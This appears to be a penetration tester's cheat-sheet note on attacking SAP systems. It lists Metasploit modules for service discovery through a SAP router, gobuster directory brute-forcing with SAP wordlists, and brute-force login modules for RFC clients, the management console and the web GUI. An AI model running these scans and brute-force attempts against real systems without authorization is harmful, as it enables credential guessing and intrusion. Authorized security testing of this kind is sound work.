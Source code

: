 # SAP

## Pivot Scan Web Directories

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP>
```

## Brute Force Web Directories

```
$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/URLs/urls-SAP.txt

$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/sap.txt
```

## Brute Force RFC Clients

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_brute_login

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set client 000,001,002,003,004,005,006,007,066

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > run rhosts=<IP>
```

## Brute Force Credentials

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_brute_login
```

```
msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/SAP]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/SAP]]